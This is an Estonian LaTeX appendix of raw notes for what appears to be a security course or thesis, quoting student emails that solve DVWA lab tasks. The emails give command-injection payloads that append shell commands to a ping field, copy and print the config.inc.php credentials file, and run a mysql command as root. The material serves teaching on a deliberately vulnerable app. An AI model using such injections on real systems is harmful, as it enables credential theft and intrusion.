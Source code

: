 \appendix









\section{Toormaterjal}
Siin on asjad, kust tõstan mingid lõigud töösse

\begin{verbatim}
Tere,

Tahtsin natuke veel täpsustada.

Eelnevalt saadetud käsule andmebaasi credentialite saamine:
8.8.8.8; pwd

8.8.8.8; cp ../../config/config.inc.php /tmp/asi.txt

8.8.8.8; cat /tmp/asi.txt

Kuigi ping tulemuste all pole config faili sisu näha, 
tehes lehel parema kliki ja valides "View Page Source" näeme, et source faili sees on config.inc.php sisu olemas.

Parimat


2013/4/29 andres elliku <andreselliku@gmail.com>

    Tere,

    Andsite ülesande luua andmebaas nimega kala.

    DVWAs kasutades "Command execution" haavatavust lõin andmebaasi kasutades käsku:
    8.8.8.8; mysql --user=root --password='student' -e 'create database kala;'

    Loodan, et mahun veel 3 esimese hulka. Kulutasin SQL injectioni mooduse leidmise peale nii palju aega, enne kui mõtlesin selle lahenduse saatmise peale.

    
    

\end{verbatim}

Lisada upstart ülesanne mysql oom score tuunimiseks.


DHCP laborisse lisada shared-network konfig


%